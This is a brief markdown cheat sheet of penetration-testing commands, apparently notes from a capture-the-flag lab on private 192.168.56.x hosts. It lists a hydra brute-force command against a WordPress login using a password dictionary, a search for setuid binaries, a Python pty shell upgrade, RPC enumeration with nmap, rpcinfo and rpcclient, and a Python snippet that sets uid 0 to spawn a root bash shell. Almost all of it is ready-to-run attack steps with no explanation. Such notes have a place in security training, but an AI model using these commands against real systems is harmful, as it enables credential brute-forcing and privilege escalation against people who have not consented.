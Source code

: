### Brute Force 

hydra -vV -L fsociety.dic -p test 192.168.56.3 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

### find (setuid or setgid) binaries

find / -perm -u=s -type f 2>/dev/null




### Getting Interactive Shell



python -c 'import pty; pty.spawn("/bin/bash")'

$ export SHELL=bash
$ export TERM=xterm256-color
$ stty rows 38 columns 116


export TERM=xterm


### RPC exploiting

nmap -sV -p 111,51926 192.168.56.6

rpcinfo -p 192.168.56.6

rpcclient -U% 192.168.56.6


### Make me root

import os

os.setuid(0)
os.setgid(0)
os.system("/bin/bash")
